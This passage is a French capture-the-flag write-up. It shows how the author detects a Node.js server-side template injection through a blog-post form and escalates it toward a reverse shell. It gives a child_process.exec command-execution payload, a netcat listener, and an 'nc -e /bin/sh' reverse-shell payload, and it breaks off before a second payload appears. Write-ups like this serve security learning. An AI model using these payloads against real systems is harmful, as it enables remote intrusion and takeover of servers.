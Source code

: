 ```javascript
          $.ajax(settings).done(function (response) {
            if(response === true){
              alert('Succesfully added blogpost')             
              $('#title').val('')
              $('#content').val('')
            } else {
              alert('Something went bad ...')
            }
          })
        
      })
    })
```

Étrangement, on ne rentrait même pas dans le _else_ du test après l'envoi de la requête. C'était donc une erreur non prévue par le serveur... L'injection de template n'était donc probablement pas en python.

On essaie d'injecter des mots clefs de langages, comme du node.js.

En envoyant un __{ this }__, le blogpost se créé, on va donc voir son contenu.

![Blogpost avec injection](/img/Nuclea_injected_post.png)

Bingo, c'est du node.js !

Je sais qu'on peut exécuter des commandes système avec le code suivant.

```javascript
{ require('child_process').exec('<CMD>') }
```

Mais à chaque fois j'obtient le résultat __[object Object]__. 

J'arrête donc d'essayer d'afficher et je lance un reverse shell. Sur ma machine j'ouvre un listener.

 ```bash
nc -nlvp 51337
 ```

Et je test une première payload sur le serveur.

```javascript
{ require('child_process').exec('nc -e /bin/sh <IP> <PORT>')) }
```

Malheureusement, ça ne fonctionne pas. Il n'y a probablement pas la bonne version de netcat pour ça. Mais pas d'inquiétude, on utilise une autre payload qui fonctionne à (presque) tous les coups :
